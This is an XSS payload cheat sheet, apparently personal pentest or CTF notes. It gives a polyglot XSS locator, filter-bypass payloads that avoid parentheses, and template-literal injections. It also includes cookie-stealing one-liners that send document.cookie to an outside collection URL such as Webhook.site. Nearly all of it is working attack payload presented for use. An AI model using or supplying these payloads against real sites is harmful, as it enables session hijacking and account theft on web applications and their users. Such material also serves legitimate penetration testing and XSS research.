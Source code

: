 # General Resources
[Webhook.site](https://webhook.site/) - Basically required to steal cookies without Burp Collaborator
[Portswigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) - XSS payload search (useful for making Burp Intruder payloads)

# XSS Locator
Paste this into any area you suspect is vulnerable to XSS
```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

# Stealing Cookies
Some quick payloads for stealing cookies ``o(￣▽￣)ｄ``
## General One-Liner (Use this one first)
```javascript
<script>var i=new Image;i.src="[URL]/?"+document.cookie;</script>
```
**Example usage of above:**
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```
## Using ``<img>`` Tag
```javascript
<img src=x onerror="this.src='[URL]/?'+document.cookie;this.removeAttribute('onerror');"/>
```

# Filter Bypasses
## HTML Entities
For a useful list of HTML entities, see the [HTML](Web/Encodings/HTML.md) page
```javascript
<IMG SRC=javascript:alert(&quot;1&quot;)>
```
## No parentheses
Some XSS payloads that dont require parentheses, the full list is available [here](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
```javascript
alert`23`

eval.call`${'alert\x2823\x29'}`

eval.apply`${[`alert\x2823\x29`]}`

setTimeout`alert\x2823\x29`
setInterval`alert\x2823\x29`

onerror=alert;throw 23;

window.name='javascript:alert\x2823\x29';
Reflect.set.call`${location}${'href'}${name}`

Reflect.apply.call`${alert}${undefined}${[23]}`

navigation.navigate`javascript:alert\x2823\x29`

var{haha:onerror=alert}=0;throw 1
var{a:onerror}={a:alert};throw 1

'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

{onerror=alert}throw 23

throw{},onerror??=alert,"XSS"??123

[].sort.call`${alert}23`

[].map.call`${eval}\\u{61}lert\x2823\x29`

window.name='javascript:alert(23)';
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`;
```

# AngularJS
See [PayloadsAllTheThings - XSS in AngularJS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# XSS Template Literal Payloads
Taken from [here](https://security.stackexchange.com/questions/241016/xss-with-template-literals)
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

